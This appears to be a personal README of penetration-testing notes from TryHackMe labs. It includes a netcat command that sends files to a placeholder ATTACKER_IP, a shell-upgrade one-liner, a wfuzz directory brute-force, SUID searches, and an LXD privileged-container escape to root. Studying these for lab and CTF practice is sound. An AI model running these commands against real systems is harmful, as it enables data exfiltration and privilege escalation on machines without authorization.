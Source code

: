 # HackNotes

This repository contains my personal notes and tricks that I've gathered while working on various machines in the TryHackMe platform. These notes serve as a guide for penetration testing and help me document my progress and findings.

Please note that these notes are a work in progress, and I'll be continuously adding more content as I progress through the challenges and machines.

## Contents

### Tricks

- Spawn bautiful shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
- File transfer using `nc`:
On the remote shell:
```
nc ATTACKER_IP ATTACKER_PORT < [file_to_download]
```
On the attacker machine:
```
nc -l ATTACKER_PORT > [output_file_path]
```
- Web exploitation using `wfuzz`:
```
wfuzz -w /usr/share/dirb/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://10.10.47.7/island/2100/FUZZ.ticket
```
- Encoding techniques:
    - [splitbrain](https://www.splitbrain.org/_static/ook/)
    - [hashes](https://hashes.com/en/tools/hash_identifier)
    - [md5hashing](https://md5hashing.net/hash)
    - [cyberchef](https://gchq.github.io/CyberChef/)

### Notes

`xxd`: Read raw file
`l\s`: Equivalent to `ls`
`scp backup.zip toor@192.168.122.30:/home/username_of_remote_host`: copy files to a remote host using ssh
`gzip -d`: Decompress a file

#### Privilege Escalation:
Identify SUID/SGID files:
```
find / -type f -perm /4000 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
```
LXD container exploitation:
```
wget archive
lxc image import ./archive --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true # If not working, use FINGERPRINT
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```

Happy hacking!
